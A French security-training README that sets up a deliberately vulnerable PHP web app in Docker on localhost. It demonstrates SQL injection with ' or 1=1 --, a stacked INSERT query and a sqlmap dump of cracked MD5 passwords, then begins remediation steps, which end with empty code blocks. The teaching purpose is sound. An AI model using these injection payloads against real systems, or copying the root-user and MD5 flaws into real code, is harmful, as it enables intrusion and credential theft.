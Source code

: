 # TP - formation sécu n°1

## Déroulement

Suivre les étapes et pratiquer ou suivre la vidéo.

## Démarrage

1. Récupérer le projet et lancer la plateforme

    >```bash
    >    git pull git@github.com:frederictriquet/formation_secu_1.git
    >    docker-compose up
    >```

1. Se connecter à http://localhost:8080/ avec un navigateur.
1. Cliquer sur __reset database__
1. Voir les mauvaises pratiques dans le code :
    - __docker-compose.yml__ et __webapp/webroot/include/db.inc.php__
        - l'utilisateur __root__ est utilisé pour toutes les requêtes à la base de données
    - __webapp/webroot/reset.php__
        - les mots de passe sont stockés __hashés en MD5__
    - __webapp/webroot/sqli/index.php__
        - le champ __login__ du formulaire est utilisé directement dans la requête SQL

## Exploitation de l'injection SQL

Le champ __password__ est volontairement visible.
Les mots de passe se trouvent dans __webapp/webroot/reset.php__

1. Cliquer sur __SQL injection__
1. Tester le formulaire
    - __admin__/__incorrect__ : aucun utilisateur ne correspond
    - __admin__/__password__ : 1 utilisateur correspond

1. Dans le champ __login__, tester :
    > login = `'`

    Il n'est pas utile de saisir de mot de passe.

    Initialement, la requête SQL est :

    >```sql
    >$query  = "SELECT COUNT(*) FROM users WHERE login='$login' AND password='$hash';";
    >```

    La requête SQL envoyée à la base de donnée sera :

    >`SELECT COUNT(*) FROM users WHERE login=''' AND password='d41d8cd98f00b204e9800998ecf8427e';`

    Ce qui provoque une erreur de syntaxe au niveau des 3 quotes qui se suivent.

1. Première exploitation : détourner le fonctionnement du code

    > login = `' or 1=1 --`

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='' or 1=1 --' AND pass...";
    >--------------------------------------------------|_________|
    >```

    - La quote ferme la première chaîne de caractères
    - `or 1=1` est une condition toujours vraie
    - tout ce qui est après `--` est ignoré (commentaires)

    La requête SQL traitée par la base de donnée est donc :

    >```sql
    >SELECT COUNT(*) FROM users WHERE login='' or 1=1
    >```

    Cela va donc renvoyer le nombre d'utilisateurs présents dans la table __users__ au lieu de ne renvoyer que 0 ou 1 lors d'une utilisation normale.

1. Deuxième exploitation : exécuter une requête arbitraire

    > login = `';INSERT INTO users VALUES (12, 'fred', md5('fred')) --`

    La requête devient alors :

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='';INSERT INTO users VALUES (12, 'fred', md5('fred')) --' AND pass...";
    >```

    La seconde partie est une seconde requête qui ajoute un utilisateur dans la table __users__.


1. Troisième exploitation : avec l'outil dédié __sqlmap__

    > docker-compose run sqlmap -u "http://web/sqli/" --data "login=someuser&password=letMeIn" --batch --dump

    Cet outil exploite les injections SQL et réussit ici à extraire le contenu et la structure des tables. Il sait déchiffrer les champs comme nos mots de passe hashés en MD5.

    ```data
        +----+-------+----------------------------------------------+
        | id | login | password                                     |
        +----+-------+----------------------------------------------+
        | 1  | admin | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 2  | alice | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 3  | bob   | e99a18c428cb38d5f260853678922e03 (abc123)    |
        | 4  | carol | 8ae1dd156c62f4f0b0b31c29b46f8e48             |
        | 5  | dave  | 437b930db84b8079c2dd804a71936b5f (something) |
        | 12 | fred  | 570a90bfbf8c7eab5dc5d4e26832d5b1 (fred)      |
        +----+-------+----------------------------------------------+
    ```

    Le mot de passe un peu plus complexe de l'utilisatrice __carol__ peut être retrouvé grâce à des [rainbow tables](https://en.wikipedia.org/wiki/Rainbow_table) disponibles par exemple chez [Hash Toolkit](https://hashtoolkit.com/).

## Corriger les vulnérabilités du code

1. modifier soi-même le code ou basculer sur la branche __secure__ :

    >```bash
    >git checkout secure
    >```

1. correction du problème de stockage de mots de passe

    - __webapp/webroot/reset.php__, remplacer

        >```php
        >$hash = md5($user[1]);
        >```

        par

        >```php
        >$hash = password_hash($user[1],PASSWORD_DEFAULT);
        >```

    - __webapp/webroot/reset.php__, remplacer

        >```sql
        >password CHAR(32) NOT NULL
        >```

        par

        >```sql
        >password CHAR(64) NOT NULL
        >```

    - __webapp/webroot/sqli/index.php__, remplacer

        >```php
        >
        >```

        par

        >```php
        >
        >```

